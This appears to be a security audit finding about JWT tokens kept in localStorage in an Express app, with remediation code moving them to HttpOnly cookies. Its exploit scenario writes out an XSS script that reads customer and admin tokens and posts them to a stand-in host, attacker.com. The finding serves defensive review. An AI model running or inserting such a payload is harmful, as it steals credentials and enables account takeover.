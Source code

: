**Description:**
JWT authentication tokens (both customer and admin) are stored in `localStorage`, making them vulnerable to XSS attacks. Any JavaScript injection can steal these tokens, leading to complete account takeover.

**Exploit Scenario:**
```javascript
// Attacker injects XSS payload
<script>
  const token = localStorage.getItem('user-token');
  const adminToken = localStorage.getItem('admin-token');
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token, adminToken, user: localStorage.getItem('user') })
  });
</script>
```

**Impact:**
- Complete account takeover (customer and admin)
- Session hijacking
- Unauthorized access to sensitive data
- Ability to perform actions as the victim user

**Remediation:**
1. **Use HttpOnly Cookies for JWT storage:**
```typescript
// server/routes.ts - After successful login
res.cookie('auth_token', token, {
  httpOnly: true,
  secure: process.env.NODE_ENV === 'production',
  sameSite: 'strict',
  maxAge: 7 * 24 * 60 * 60 * 1000 // 7 days for customers
});

res.cookie('admin_token', adminToken, {
  httpOnly: true,
  secure: process.env.NODE_ENV === 'production',
  sameSite: 'strict',
  maxAge: 8 * 60 * 60 * 1000 // 8 hours for admins
});
```

2. **Modify authentication middleware to read from cookies:**
```typescript
const authenticateCustomer = async (req: any, res: any, next: any) => {
  const token = req.cookies.auth_token; // Read from cookie instead of header
  // ... rest of authentication logic
};
```

3. **Remove localStorage token storage from frontend**
4. **Configure cookie-parser middleware in Express**

---
